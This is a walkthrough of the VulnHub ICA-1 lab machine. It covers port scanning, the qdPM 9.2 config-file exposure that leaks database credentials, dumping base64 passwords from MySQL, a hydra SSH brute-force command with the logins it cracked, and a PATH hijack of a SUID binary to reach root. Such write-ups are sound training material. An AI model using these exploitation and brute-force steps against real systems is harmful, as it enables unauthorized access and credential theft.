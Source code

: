 ```yaml
---
layout: post
title: VulnHub ICA-1 Writeup
categories: VulnHub Machines
permalink: /vulnhub/ica-1
---
```


Machine: [https://www.vulnhub.com/entry/ica-1,748/](https://www.vulnhub.com/entry/ica-1,748/)
Machine Author: [onurturali](https://www.vulnhub.com/author/onurturali,820/)

## Nmap

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-09 07:55 UTC
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.136
Host is up (0.00065s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 0e:77:d9:cb:f8:05:41:b9:e4:45:71:c1:01:ac:da:93 (RSA)
|   256 40:51:93:4b:f8:37:85:fd:a5:f4:d7:27:41:6c:a0:a5 (ECDSA)
|_  256 09:85:60:c5:35:c1:4d:83:76:93:fb:c7:f0:cd:7b:8e (ED25519)
80/tcp    open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: qdPM | Login
3306/tcp  open  mysql   MySQL 8.0.26
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-09-25T10:47:29
|_Not valid after:  2031-09-23T10:47:29
|_ssl-date: TLS randomness does not represent time
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.26
|   Thread ID: 41
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, SwitchToSSLAfterHandshake, DontAllowDatabaseTableColumn, LongPassword, LongColumnFlag, Speaks41ProtocolOld, SupportsTransactions, IgnoreSigpipes, ODBCClient, InteractiveClient, IgnoreSpaceBeforeParenthesis, FoundRows, SupportsLoadDataLocal, ConnectWithDatabase, SupportsCompression, Speaks41ProtocolNew, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: /(%Yj"\x16PRA]*\x05\x1ERt     lX7
|_  Auth Plugin Name: caching_sha2_password
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
MAC Address: 08:00:27:49:80:BC (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.65 ms 192.168.56.136

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.00 seconds

```

We can see that there is ssh, mysql and http running on the server. Let’s go ahead and check the website since we’ll need credentials for mysql and ssh.

![1](https://github.com/user-attachments/assets/0ad5d22a-835d-43a0-9d81-71b5e8ebf0b5)


We come across a login page for qdPM. There aren’t any default credentials for this service. So let’s look for any exploits for the qdPM 9.2 version.

```bash
# Exploit Title: qdPM 9.2 - DB Connection String and Password Exposure (Unauthenticated)
# Date: 03/08/2021
# Exploit Author: Leon Trappett (thepcn3rd)
# Vendor Homepage: https://qdpm.net/
# Software Link: https://sourceforge.net/projects/qdpm/files/latest/download
# Version: 9.2
# Tested on: Ubuntu 20.04 Apache2 Server running PHP 7.4

The password and connection string for the database are stored in a yml file. To access the yml file you can go to http://<website>/core/config/databases.yml file and download.
```

We manage to find the above exploit. Let’s go ahead and download the databases.yml file

```bash
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: qdpmadmin
      password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
      attributes:
        quote_identifier: true  
  
```

We seem to have found credentials for the mysql service

qdpmadmin:UcVQCMQk2STVeS6J

Let’s log on to the mysql service and perform some enumeration there.

```bash
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| qdpm               |
| staff              |
| sys                |
+--------------------+
6 rows in set (0.004 sec)

MySQL [(none)]> use staff
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [staff]> show tables;
+-----------------+
| Tables_in_staff |
+-----------------+
| department      |
| login           |
| user            |
+-----------------+
3 rows in set (0.001 sec)
MySQL [staff]> select * from user;
+------+---------------+--------+---------------------------+
| id   | department_id | name   | role                      |
+------+---------------+--------+---------------------------+
|    1 |             1 | Smith  | Cyber Security Specialist |
|    2 |             2 | Lucas  | Computer Engineer         |
|    3 |             1 | Travis | Intelligence Specialist   |
|    4 |             1 | Dexter | Cyber Security Analyst    |
|    5 |             2 | Meyer  | Genetic Engineer          |
+------+---------------+--------+---------------------------+
5 rows in set (0.001 sec)
MySQL [staff]> select * from login order by user_id;
+------+---------+--------------------------+
| id   | user_id | password                 |
+------+---------+--------------------------+
|    3 |       1 | WDdNUWtQM1cyOWZld0hkQw== |
|    1 |       2 | c3VSSkFkR3dMcDhkeTNyRg== |
|    4 |       3 | REpjZVZ5OThXMjhZN3dMZw== |
|    2 |       4 | N1p3VjRxdGc0MmNtVVhHWA== |
|    5 |       5 | Y3FObkJXQ0J5UzJEdUpTeQ== |
+------+---------+--------------------------+
5 rows in set (0.001 sec)
```

We can see some Users and Passwords encoded in base64. We can’t seem to read any file using the load_file() function. So it seems we will have to create a wordlist of users and passwords based on what we have above.

```bash
hydra -L user.txt -P pass.txt 192.168.56.136 ssh -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-09 08:37:31
[DATA] max 4 tasks per 1 server, overall 4 tasks, 25 login tries (l:5/p:5), ~7 tries per task
[DATA] attacking ssh://192.168.56.136:22/
[22][ssh] host: 192.168.56.136   login: travis   password: DJceVy98W28Y7wLg
[22][ssh] host: 192.168.56.136   login: dexter   password: 7ZwV4qtg42cmUXGX
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-09 08:37:48

```

We are able to find two users. Let’s ssh into the server using one of them.

![2](https://github.com/user-attachments/assets/396fdf5d-38e6-4ae4-bb08-1d282ae97a2b)


We are able to get the user.txt from the travis user. Let’s also go ahead and login using dexter to see what else is there.

![3](https://github.com/user-attachments/assets/6a144677-95db-4bd9-99b5-6c19d9f79e05)


There is this note there. Let’s enumerate the system and see what we can find.

![4](https://github.com/user-attachments/assets/4bd76178-6e06-43bf-b553-b9e2b79b0988)


We are able to find a binary with the suid bit set on. Let’s analyze this executable on our machine to see what it does.

```bash
ltrace ./get_access 
setuid(0)                                                                                                                                         = -1
setgid(0)                                                                                                                                         = -1
system("cat /root/system.info"cat: /root/system.info: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                            = 256
socket(2, 1, 0)                                                                                                                                   = 3
puts("All services are disabled. Acces"...All services are disabled. Accessing to the system is allowed only within working hours.

)                                                                                                       = 90
+++ exited (status 0) +++

```

It seem that the binary is calling the cat command to print a file. Since it is calling cat without using the absolute path I think we can do a path export attack on it.

![5](https://github.com/user-attachments/assets/e8b5c106-24c6-42e4-9fc5-723db6c71fae)


Sure enough we do get root.

![6](https://github.com/user-attachments/assets/f88af7fc-721b-4cb7-b7bc-9d5b44725ac9)
